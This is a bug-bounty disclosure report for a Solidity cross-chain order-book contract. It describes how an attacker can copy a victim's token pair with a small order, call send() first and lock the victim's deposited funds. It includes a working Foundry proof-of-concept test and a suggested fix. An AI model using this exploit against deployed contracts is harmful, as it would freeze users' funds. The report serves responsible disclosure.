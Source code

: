 > Disclaimer: This bug was reported for a different project that was also named *Hourglass* — a CLOB protocol — and is *not* related to the current Hourglass BBP on Immunefi. That previous Hourglass project was removed and banned from the platform by the Immunefi team due to unresponsiveness and failure to pay security researchers (#MeToo xD). Hope you enjoy reading this report — thanks!

## Attackers can easily owerrite users' Orders data in the OrderBook due to the usage of risky `keys` in the `Order` mapping

### Description
The keys used in this important mapping book to store the users' order data, are very dangerous, as they can be easily overwritten by an attackers to cause harm to the users.
```solidity
    //Orderbook (chain_id,source_token,destination_token)
    mapping(uint256 => mapping(address => mapping(address => Pair))) internal book;
```
### Vulnerability Details
When a user is going to place a takers order by invoking `PlaceTakers()`, it will provide `sell_token`, `buy_token`, `lz_cid` & `_quantity` as the function input. `sell_token`, `buy_token` & `lz_cid` will be used to store user's data in the orderbook:
```solidity
        Pair storage selected_pair = book[lz_cid][sell_token][buy_token];
```        
This same mapping will be used everywhere to fetch user's data and execute his takers order. Like in this `send()` function, which is used to execute users orders:
```solidity
    function send(address sell_token, address buy_token, uint256 lz_cid) public nonReentrant {
@>      Pair storage selected_pair = book[lz_cid][sell_token][buy_token];
        require(!selected_pair.isAwaiting, "!await lz inbound msg");
        require(block.timestamp - uint256(selected_pair.index.timestamp) >= settings.epochspan, "!await timestamp"); //@
        require(address(this).balance >= 2 * settings.MINGAS, "!gasLimit send");
        resolve_epoch(sell_token, buy_token, lz_cid);

        selected_pair.isAwaiting = true;
    }
```
If we look at the `send()` function, there is an important check which makes sures that, the pair on this spoke isn't waiting for an inbound layer zero message (or in other words, its not already resolved/sent)
```solidity
        require(!selected_pair.isAwaiting, "!await lz inbound msg");
```        
If it is already sent or its waiting for an inbound LZ then the trx gets revert, Notice, the `send()` function also sets it to true after invoking `resolve_epoch()`.

### Attack Vector
Now, this clearly means that an attacker can create a same order like any user's order (same buyToken, sellToken & chainId) but with less quantity tokens, this will overwrite user's pair and then the attacker will call the `send()` function, which will set pair's `isAwaiting` value to `true`, then the user will never gonna be able to execute `send()` with his pair.

For more clarity, Let's consider this:
- Ali creates a taker order for 10,000 USDC from ARB to USDT on ETH
- Shaheen notices Ali's big order, so he places a taker order of 100 USDC from ARB to USDT on ETH.
- Ali's & Shaheen's pair in the orderbook mapping will be same (esp IsAwaiting bool wise)
- Now after epochspan, Shaheen will call the send() which will set the pair's IsAwaiting to true.
- Ali calls the send() with the pair, but his call will revert "!await lz inbound msg"
This exactly is what the PoC demonstrates.

### Impact Details
- Loss of Funds.
- DoS.
- Assets Freeze in a contract permanently.
Loss of Funds for the Users, as the `PlaceTaker()` function transfers tokens from the user to the contract, and as now users are not gonna be able to call `send()` then those tokens will be permanently stuck in the contract.

### Recommended Mitigation
Add a key in the Pair/book mapping, which cannot be replicated easily like the tokens quantity or the sender's address to make it absolutely secure. Thanks!

### Proof of Concept
```solidity
// SPDX-License-Identifier: UNLICENSED pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol"; import {MockERC20} from "./Mocks/MockER20.sol"; import {Spoke} from "./../src/hourglass/Multichain.sol"; import "forge-std/console.sol";

contract SpokeTest is Test { Spoke public spoke; MockERC20 public token; address Ali = address(3); address Shaheen = address(5);

function setUp() public {
    spoke = new Spoke(address(12345), 12345);
    token = new MockERC20("TOKEN", "TKN", 18);
}

function test_placeTaker_OverrideProblems_Poc() public {
    token.mint(Ali, 7 ether);
    token.mint(Shaheen, 2 ether);

    address sell_token = address(token);
    address buy_token = address(1);
    uint256 lz_cid = 1122;
    uint96 quantityA = 5 ether;

    vm.startPrank(Ali);
    vm.deal(Ali, 1 ether);
    spoke.placeTaker{value: 1 ether}(sell_token, buy_token, lz_cid, quantityA);
    vm.stopPrank();
    bool await1 = spoke.getAwait(sell_token, buy_token, lz_cid);
    assertEq(await1, false);

    uint96 quantityB = 0.1 ether;
    vm.startPrank(Shaheen);
    vm.deal(Shaheen, 1 ether);
    spoke.placeTaker{value: 1 ether}(sell_token, buy_token, lz_cid, quantityB);
    vm.stopPrank();
    bool await2 = spoke.getAwait(sell_token, buy_token, lz_cid);
    assertEq(await2, false);

    vm.prank(Shaheen);
    spoke.send(sell_token, buy_token, lz_cid);
    bool await3 = spoke.getAwait(sell_token, buy_token, lz_cid);
    assertEq(await3, true);

    vm.prank(Ali);
    vm.expectRevert("!await lz inbound msg");
    spoke.send(sell_token, buy_token, lz_cid);
    }
}
```
About the Coded PoC;
Make sure to add the Mock Contracts to run the PoC. Mock Contracts can be created using this guide: https://medium.com/sphere-audits/a-complete-guide-to-erc20-fuzz-and-invariant-testing-using-foundry-23b06888b5fd. Also to make the PoC easy and straightforward, we omitted out these lines: 78, 80, 81, 723 & 727, As our main focus is to see the working of the contract's state.

> For PoC to work make sure to remove the spoke.getAwait(sell_token, buy_token, lz_cid) calls in the tests OR add this view function in the Multichain.sol / Spoke contract:
>     function getAwait(address sell_token, address buy_token, uint256 lz_cid) public view returns (bool await) {
>         Pair storage selected_pair = book[lz_cid][sell_token][buy_token];
>         return selected_pair.isAwaiting;
>     }
> I added this getAwait() in the main contract, just for my help, you guys can do the same or remove all the spoke.getAwait() calls from the tests, it can be removed and the PoC will still work as one send() will pass & the other send() will still revert and thats enough to showcase the PoC.